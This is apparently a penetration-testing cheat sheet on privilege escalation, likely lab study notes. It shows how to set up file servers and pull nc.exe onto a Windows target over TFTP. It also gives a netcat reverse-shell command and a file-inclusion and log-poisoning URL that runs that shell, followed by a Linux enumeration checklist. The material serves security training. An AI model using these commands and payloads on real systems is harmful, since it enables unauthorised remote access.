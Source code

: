# **Privilege escalation**

## Common

### Set up Webserver

```
python -m SimpleHTTPServer 8080
```

### Set up FTP Server

```
# Install pyftpdlib
pip install pyftpdlib

# Run (-w flag allows anonymous write access)
python -m pyftpdlib -p 21 -w
```

### Set up TFTP

````
# In Kali
atftpd --daemon --port 69 /tftp

# In reverse Windows
tftp -i 10.11.1.111 GET nc.exe
nc.exe -e cmd.exe 10.11.1.111 4444

http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444
````

## Linux

Now we start the whole enumeration-process over gain.

- Kernel exploits
- Programs running as root
- Installed software
- Weak/reused/plaintext passwords
- Inside service
- Suid misconfiguration
- World writable scripts invoked by root
- Unmounted filesystems
- Look in /var/backups
- Look in /etc/fstab y en mount

Less likely

- Private ssh keys
- Bad path configuration
- Cronjobs
